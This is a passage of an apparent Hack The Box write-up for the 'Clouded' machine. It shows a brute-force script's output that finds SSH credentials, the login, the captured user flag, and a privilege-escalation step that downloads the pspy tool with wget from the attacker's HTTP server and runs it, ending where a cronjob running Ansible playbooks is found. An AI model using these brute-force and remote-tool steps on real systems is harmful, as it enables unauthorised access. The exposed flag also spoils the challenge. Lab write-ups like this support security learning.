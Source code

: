 ```py
if __name__ == "__main__":
    main()
```

Run the script.

```bash
$ python3 brute.py

[FAILURE] Authentication failed: jax:bowwow 
[FAILURE] Authentication failed: blackstone:bowwow

[** SNIP **]

[SUCCESS] Login successful: nagato:alicia
```

Login in via SSH usign the obtained credentials.

```bash
ssh nagato@clouded.htb
```

The user flag can be obained at `/home/nagato/user.txt`.

```bash
nagato@clouded:~$ cat /home/nagato/user.txt
HTB{L@MBD@_5AY5_B@@}
```

# Privelege Escalation

Let's enumerate any important processes running on the box using the `pspy` utility. Upload `pspy` binary to the remote box and give it executable permissions.

```bash
python3 -m http.server 8000
```

```bash
nagato@clouded:/tmp$ wget 10.10.14.48:8000/pspy
nagato@clouded:/tmp$ chmod +x pspy
```

Run `pspy` executable.

```bash
nagato@clouded:/tmp$ ./pspy
```

The results show that a cronjob is running every 2 min that run the ansible playbook files with `.yml` extension present in the directory `/opt/infra-setup/`.

![pspy](Clouded.assets/pspy.png)
